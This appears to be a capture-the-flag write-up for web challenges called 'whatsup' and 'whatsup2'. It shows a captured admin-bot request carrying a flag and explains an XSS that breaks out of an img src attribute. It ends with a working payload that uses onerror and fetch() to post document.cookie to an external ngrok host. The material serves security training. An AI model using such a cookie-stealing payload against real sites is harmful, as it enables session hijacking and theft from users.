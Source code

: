```
X-Forwarded-Proto: https

POST / HTTP/1.1
Host: 7097-163-5-23-68.eu.ngrok.io
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/78.0.3882.0 Safari/537.36
Content-Length: 36
Accept: */*
Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Origin: http://whatsup:8000
Referer: http://whatsup:8000/admin
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
X-Forwarded-For: 35.242.202.31
X-Forwarded-Proto: https

flag=BFS{XSS_M0R3_L!K3_FR33_C00K!35}
```

flag: ```BFS{XSS_M0R3_L!K3_FR33_C00K!35}```

# whatsup2

## What is it

Same as whatsup, except we can also send an image.

The method used in whatsup doesn't work, the html is not interpreted.

## Solution

The way the image link is inserted in the element looks probably something like this:
```js
'<img src="' + input + '">'
```

We can put '"' in our input to change other properties.

We can execute code by putting a bad link and putting code in ```src/onerror``` ([source](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onerror))

Input:
```
abc" src/onerror="alert(1)
```
Result html:
```html
<img src="abc" src/onerror="alert(1)">
```

We can then use the same method we used in whatsup to get the cookie:
```
abc" src/onerror="fetch('https://7f09-163-5-23-68.eu.ngrok.io', {method: 'post', body: document.cookie})
```
